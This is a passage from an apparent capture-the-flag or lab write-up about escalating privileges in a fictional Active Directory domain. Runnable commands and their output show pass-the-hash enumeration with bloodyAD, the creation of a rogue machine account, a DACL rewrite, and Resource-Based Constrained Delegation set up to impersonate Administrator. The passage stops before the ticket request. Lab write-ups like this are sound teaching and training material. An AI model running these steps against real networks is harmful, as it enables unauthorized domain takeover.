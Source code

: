Next, we can use `bloodyAD` to enumerate objects that we have write access to:

```
proxychains -q bloodyAD --host 'King-DC.async.empire' -u 'Castle_Knight_21' -p ':8d987bd5a242dcb12bf5a18a8cb68554' get writable         

...

distinguishedName: CN=WESTERN-OUTPOST,OU=Servers,DC=async,DC=empire
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

...
```

We find that we have `WRITE` access to the `Domain Access Control Lists (DACLs)` for `western-outpost`, allowing us to modify access control settings on the machine. To avoid disrupting other operations, we'll create a new domain computer (which is also a domain account) and assign the ACLs there.

```
proxychains -q impacket-addcomputer 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9' -computer-name 'GATARI' -computer-pass 'P@ssw0rd'                
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account GATARI$ with password P@ssw0rd.
```

Next, we can grant `GATARI$` full control (`GenericAll`) over `WESTERN-OUTPOST`

```
proxychains -q impacket-dacledit -action 'write' -rights 'FullControl' -principal 'GATARI$' -target 'WESTERN-OUTPOST$' 'async.empire'/'Castle_Knight_21' -hashes ':8d987bd5a242dcb12bf5a18a8cb68554'        

[*] DACL backed up to dacledit-20250509-045959.bak
[*] DACL modified successfully!                               
```

With full access to the machine, we can simply modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on `WESTERN-OUTPOST$` to allow `GATARI$` to impersonate any user to the machine. This is an attack known as: [Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd).

```
proxychains -q impacket-rbcd -delegate-from 'GATARI$' -delegate-to 'WESTERN-OUTPOST$' -action 'write' 'async.empire'/'GATARI$':'P@ssw0rd'                                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Delegation rights modified successfully!
[*] GATARI$ can now impersonate users on WESTERN-OUTPOST$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     GATARI$      (S-1-5-21-3324594629-4204122608-2512478463-1283)
```

Now that our `GATARI$` account has been granted delegation rights on `WESTERN-OUTPOST`, we can perform request a Service Ticket (ST) for any user (including `Administrator`) to any service on `WESTERN-OUTPOST`.
